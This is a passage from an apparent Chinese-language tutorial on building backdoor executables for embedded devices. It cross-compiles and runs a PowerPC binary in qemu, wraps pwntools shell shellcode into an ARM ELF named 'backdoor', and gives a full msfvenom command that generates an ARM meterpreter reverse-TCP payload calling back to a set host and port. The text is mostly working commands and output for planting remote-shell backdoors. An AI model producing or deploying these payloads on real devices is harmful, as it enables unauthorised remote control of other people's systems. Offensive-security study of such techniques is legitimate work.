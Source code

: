 编译以及使用方法：

```c
➜  powerpc64-linux-gnu-gcc test.c -static  -o test
➜  file test
test: ELF 64-bit MSB executable, 64-bit PowerPC or cisco 7500, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5e5a74d40c7decf7a998ecea44906421ec1c015b, for GNU/Linux 3.2.0, not stripped
➜  qemu-ppc64 ./test
```

如果基础是shellcode，则可以直接用pwntools的make_elf方法把其封装成ELF，需要对应架构的binutils支持：

```python
from pwn import *
context(arch='arm',os='linux')

shellcode = asm(shellcraft.sh())
backdoor  = make_elf(shellcode)
f = open('backdoor','wb')
f.write(backdoor)
f.close()
```

用法：

```bash
➜  python3 exp.py 
➜  ls
backdoor  exp.py
➜  chmod +x ./backdoor 
➜  file backdoor 
backdoor: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, stripped
➜  qemu-arm ./backdoor 
$ ls
backdoor  exp.py
```

当然也可以用msf直接生成ELF版的meterpreter，这也是我最常用的，可以方便直接的在嵌入式设备中下载文件：

```python
➜  msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.100  LPORT=6666 -f elf -o backdoor
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: armle from the payload
No encoder specified, outputting raw payload
Payload size: 1025984 bytes
Final size of elf file: 1025984 bytes
Saved as: backdoor
➜  file backdoor 
backdoor: ELF 32-bit LSB pie executable, ARM, EABI5 version 1 (SYSV), dynamically linked, with debug_info, not stripped
```


### 动态：so
